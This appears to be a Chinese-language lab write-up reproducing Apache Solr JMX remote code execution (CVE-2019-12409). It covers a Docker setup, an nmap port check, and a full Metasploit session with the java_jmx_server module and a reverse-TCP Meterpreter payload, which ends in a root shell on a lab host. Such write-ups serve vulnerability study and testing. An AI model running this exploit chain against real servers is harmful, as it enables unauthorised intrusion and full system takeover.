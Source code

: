 ```yaml
---
title:  Apache Solr JMX服务 RCE CVE-2019-12409
---
```


# Apache Solr JMX服务 RCE CVE-2019-12409

## 漏洞描述
Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX 作为 Java的一种Bean管理机制，如果JMX服务端口暴露，那么远程攻击者可以让该服务器远程加载恶意的Bean文件，随着Bean的滥用导致远程代码执行。

## 影响版本
<a-checkbox checked>Apache Solr 8.1.1</a-checkbox></br>
<a-checkbox checked>Apache Solr 8.2.0</a-checkbox></br>

## 环境搭建
```shell
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

## 漏洞复现
查看搭建的Solr是否存在漏洞,查看solr.in.sh配置文件中的·ENABLE_REMOTE_JMX_OPTS·选项设置是否为“Ture”，如果为Ture，则存在漏洞

查看漏洞端口18983是否开放
```shell
nmap xxx.xxx.xxx.xxx -p 18983
```

![98733fe0-bd66-40d2-95ff-322723fcf123](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/98733fe0-bd66-40d2-95ff-322723fcf123.png)

```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)
```

![ce0defa5-e90a-4885-bb1f-b1bbf8425b16](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ce0defa5-e90a-4885-bb1f-b1bbf8425b16.png)
